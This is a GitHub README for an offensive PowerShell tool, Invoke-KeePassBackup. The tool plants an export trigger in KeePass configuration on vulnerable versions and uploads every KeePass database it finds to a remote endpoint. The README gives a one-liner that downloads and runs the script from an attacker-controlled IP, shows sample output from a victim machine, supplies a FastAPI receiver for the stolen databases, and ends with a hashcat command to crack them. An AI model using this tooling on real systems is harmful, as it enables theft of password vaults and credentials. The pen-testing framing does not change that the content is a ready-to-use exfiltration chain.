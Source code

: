 # Invoke-KeePassBackup
This PowerShell script has been crafted to streamline the process of transmitting KeePass databases to a designated endpoint. Conceived as an indispensable tool for your penetration testing toolkit, it aims to facilitate the exfiltration of target databases, paving the way for subsequent exploitation. Central to its design is the objective to incorporate comprehensive KeePass tests, thereby eliminating manual, time-intensive tasks. 🕊️

## Features
- Automatically locates the KeePass executable and ascertains its version.
- Adds an export trigger to the KeePass configuration if KeePass version is below 2.53.
- Backs up the current KeePass configuration before making changes.
- Scours all KeePass databases on the computer and uploads them to a given endpoint.
- Uses GZip compression for efficient backup size.
  
## Usage
Run the script using the following command:
```powershell
Invoke-KeePassBackup -url "https://backup.endpoint/u"
```

Knowing the real use-case, preferred running is from your own `HTTP(S)`/`WebDAV` server:
```powershell
$ip="192.168.45.218";powershell -nop -c "iex(irm http://$ip/Invoke-KeePassBackup.ps1); Invoke-KeePassBackup http://$ip/u"
```
It will output something like this:
```powershell
--------------- KeePass backup for noah@ITWR02
KeePass location: C:\Program Files\KeePass Password Safe 2\KeePass.exe
KeePass version: 2.51.1.0
--------------- Adding an export trigger on config file: C:\Users\noah\AppData\Roaming\KeePass\KeePass.config.xml
Backup of current config file done at: C:\Users\noah\AppData\Roaming\KeePass\KeePass.config.backup.xml
Export location: C:\Users\noah\AppData\Local\Temp\KeePassBackup.csv
Configuration complete. The trigger will go off as soon as it is opened.
--------------- Scanning for KeePass databases on ITWR02
Found KeePass database at: C:\Users\noah\Documents\Database.kdbx
Uploaded noah@ITWR02-20231012-Database.kdbx successfully!
```

The reception endpoint could resemble this FastAPI Python3 code snippet:
```python
@app.post("/u")
async def upload_file(x_file_name: str = Header(...), data: str = Body(...)):
    """
    Handle file upload via POST request.

    Args:
        x_file_name (str): The name of the file, from header.
        data (str): The body of the request containing the uploaded file's data.

    Raises:
        HTTPException: If the filename header is missing.
        HTTPException: If an error occurs during file upload.
    """

    if not x_file_name:
        raise HTTPException(
            status_code=status.HTTP_400_BAD_REQUEST,
            detail="Provide a filename with Header 'X-File-Name'",
        )

    try:
        # Decode the base64 data
        decoded_data = base64.b64decode(data.encode("utf-8"))

        # Check if the data is gzipped by looking at the first two bytes
        if decoded_data[:2] == b"\x1f\x8b":
            # If gzipped, decompress
            buffer = io.BytesIO(decoded_data)
            with gzip.GzipFile(fileobj=buffer, mode="rb") as f:
                processed_data = f.read()
        else:
            # If not gzipped, just use the decoded data as is
            processed_data = decoded_data

        # Save the file
        save_file_content(file_name=x_file_name, data=processed_data)

        return {"status": "success", "message": f"Received {x_file_name}."}

    except Exception as error:
        logger.error(f"Error while processing upload: {error}")
        raise HTTPException(status_code=500)
```

Once database received, to crack the KeePass database hash, first use `keepass2john` to extract the hash. Then, remove the prepended filename, which acts as a username, and utilize `hashcat` with the desired wordlist and rules.
```shell
hashcat $(keepass2john loot/noah@ITWR02-20231012-Database.kdbx | cut -d':' -f2-) -a 0 -O -D 1 -w 3 /usr/share/wordlists/rockyou.txt -m 13400 -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

## Contributing

Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.
